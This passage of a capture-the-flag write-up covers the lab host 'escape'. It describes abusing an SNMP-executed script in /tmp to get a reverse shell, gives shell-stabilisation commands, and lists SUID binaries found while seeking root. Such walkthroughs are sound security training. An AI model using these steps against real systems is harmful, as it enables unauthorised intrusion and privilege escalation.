 Nice we know that /bin/sh is running a file on /tmp/ directory

```
#  Note that this last entry requires the script '/tmp/shtest' to be created first,
#    containing the same three shell commands, before the line is uncommented
```

So i can put a bash reverse shell in /tmp/shtest and it will execute when i query the snmp process thingy
![image](https://user-images.githubusercontent.com/113513376/218584334-d79cd5aa-9624-4498-b12b-fd93204e8eb3.png)

Cool now we're on the main host 

Now i'll stabilize the shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL +Z
stty raw -echo;fg
reset
```

Time to escalate to root

Checking for binaries with suid shows this

```
                                                                                           
                                                                                                                                                                                                                   
Debian-snmp@escape:/home/tom$ find / -type f -perm -4000 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/logconsole
/usr/bin/sudo
/usr/bin/at
/usr/bin/chfn
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping
/bin/su
Debian-snmp@escape:/home/tom$
```
